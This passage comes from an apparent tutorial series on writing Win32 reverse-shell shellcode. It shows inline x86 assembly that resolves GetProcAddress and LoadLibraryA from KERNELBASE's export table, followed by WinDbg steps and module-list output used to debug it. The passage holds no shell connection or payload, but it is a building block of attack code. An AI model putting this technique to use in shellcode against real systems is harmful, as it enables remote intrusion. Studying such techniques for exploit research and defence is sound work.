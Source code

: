 ```c
    ADD ESI, EBX                            //ESI = Address table
    MOV EDX, DWORD PTR DS:[ESI + ECX * 4]   //EDX = Pointer(offset)
    ADD EDX, EBX                            //EDX = GetProcAddress

    // Get the Address of LoadLibraryA function 
    XOR ECX, ECX              //ECX = 0
    PUSH EBX                  //Kernelbase base address
    PUSH EDX                  //GetProcAddress
    PUSH ECX                  //0
    PUSH 0x41797261           //"Ayra"
    PUSH 0x7262694C           //"rbiL"
    PUSH 0x64616F4C           //"daoL"
    PUSH ESP                  //"LoadLibrary"
    PUSH EBX                  //Kernelbase base address
    MOV  ESI, EBX             //save the Kernelbase address in esi for later
    CALL EDX                  //GetProcAddress(LoadLibraryA)
  
  }
  return 0;
}
```

<p align="justify">
It's worth to mention here that the code above until the 49th line has been analysed and explained in previous articles, <a href="https://xen0vas.github.io/Win32-Reverse-Shell-Shellcode-pt1-Locating-the-kernelbase-base-address/">[pt .1]</a> and <a href="https://xen0vas.github.io/Win32-Reverse-Shell-Shellcode-part-2-Locate-the-Export-Directory-Table/">[pt .2]</a> accordingly. 
</p>

<p align="justify">
Starting our analysis, we open WinDbg and then by pressing <code  style="background-color: lightgrey; color:black;"><b>Ctrl+E</b></code> we are able to load the executable. Furthermore, at the current Windows machine the path of the executable file is located at the path<code  style="background-color: lightgrey; color:black;"><b>C:\Users\Xenofon\source\repos\testasm\Debug</b></code>. Afterwards, we will load the debug symbols running the command <code style="background-color: lightgrey; color:black;"><b>.symfix</b></code> in WinDbg and also running the command <code style="background-color: lightgrey; color:black;"><b>.sympath+ C:\Users\Xenofon\source\repos\testasm\testasm\Debug</b></code>, in order to load the symbols from the corresponding <code style="background-color: lightgrey; color:black;"><b>.pdb</b></code> file. Then we run the command <code  style="background-color: lightgrey; color:black;"><b>.reload</b></code> in order to reload the symbols in WinDbg. In order to see the symbols we run <code  style="background-color: lightgrey; color:black;"><b>x testasm!*</b></code>
</p>


<p align="justify">
Then, running <code  style="background-color: lightgrey; color:black;"><b>lm</b></code> we see the name of the executable
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 14px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
0:000> lm 
start    end        module name
00f80000 00f9f000   testasm  C (private pdb symbols)  C:\ProgramData\dbg\sym\testasm.pdb\AB9156DB047544CF917F630DA807EA0D3\testasm.pdb
712d0000 71444000   ucrtbased   (deferred)             
71450000 7146b000   VCRUNTIME140D   (deferred)             
75cb0000 75ec3000   KERNELBASE   (deferred)             
75f50000 76040000   KERNEL32   (deferred)             
77580000 77722000   ntdll      (pdb symbols)          C:\ProgramData\dbg\sym\wntdll.pdb\DBC8C8F74C0E3696E951B77F0BB8569F1\wntdll.pdb
</pre>
